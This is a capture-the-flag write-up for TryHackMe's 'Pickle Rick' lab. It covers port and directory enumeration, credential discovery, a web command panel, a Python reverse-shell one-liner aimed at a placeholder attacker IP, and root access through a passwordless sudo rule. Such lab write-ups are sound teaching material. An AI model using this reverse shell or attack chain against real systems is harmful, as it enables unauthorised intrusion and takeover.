>> Writeup —  Pickle Rick CTF (TryHackMe)

**Challenge:** Pickle Rick

**Platform:** TryHackMe  

**Category:** Web / Privilege Escalation 

**Author:** NIGHTFURY0X01 (Arash)  

**Level:** Easy  

---

## Challenge Summary

In this challenge, we are given a target machine with a web service running. The goal is to enumerate the system, gain access through the web application, obtain a reverse shell, and finally perform privilege escalation to retrieve all three ingredients (flags).

---

## Enumeration

### Port Scanning

First, I performed a service scan using **nmap** to identify open ports:

```bash
nmap -sV <target_ip>
```



**Result:**

- Port **22** (SSH)
- Port **80** (HTTP)

Since port 80 was open, the next step was web enumeration.

---

## Web Enumeration

### Directory Bruteforcing

I used **gobuster** to discover hidden directories and files on the website:

```bash
gobuster dir -u http://<target_ip> -w /usr/share/wordlists/dirb/common.txt
```



During enumeration, several interesting files were discovered.

### Inspecting the Website

By inspecting the main page source code using the browser developer tools, I found a username used for login:

```
R1ckRul3s
```




Next, I navigated to the following endpoint:

```text
http://<target_ip>/robots.txt
```

Inside `robots.txt`, a password was revealed.


---

## Authentication

Using the discovered credentials, I logged in at:

```text
http://<target_ip>/login.php
```


After a successful login, I was redirected to:

```text
portal.php
```


This page provided a command execution interface.

---

## Command Execution & Initial Access

I first listed files in the current directory:

```bash
ls
```


Among the files was:

```
Sup3rS3cretPickl3Ingred.txt
```


Attempting to read it directly resulted in an error, which indicated that a more stable shell was required.

---

## Reverse Shell

### Listener Setup

On my local machine, I started a netcat listener:

```bash
nc -lvnp 80
```

### Payload Execution

Inside the web command execution field, I used the following Python reverse shell payload:

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("YOUR_IP",YOUR_PORT));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"]);'
```


Immediately after execution, I received a shell as:

```
www-data
```

---

## Ingredient Collection

### First Ingredient

From the initial directory, I was able to read the first ingredient file successfully.



### Clue File

Next, I read the `clue.txt` file:

```bash
cat clue.txt
```

The file indicated that two more ingredients were required.

---

### Second Ingredient

I navigated to Rick’s home directory:

```bash
cd /home/rick
ls
```


Here, I found and retrieved the **second ingredient**.

---

### Third Ingredient (Privilege Escalation)

Attempting to access the root directory resulted in a permission error:

```bash
cd /root
```

To escalate privileges, I checked sudo permissions:

```bash
sudo -l
```

**Result:**

```
(ALL) NOPASSWD: ALL
```

This meant the current user could run any command as root without a password.

I escalated privileges using:

```bash
sudo bash -i
```

Now running as **root**, I navigated to the root directory:

```bash
cd /root
ls
```


Here, I obtained the **third and final ingredient**.

---

## Conclusion

This challenge demonstrated a complete attack chain:

- Network and web enumeration
- Credential discovery
- Command execution
- Reverse shell access
- Privilege escalation via misconfigured sudo permissions

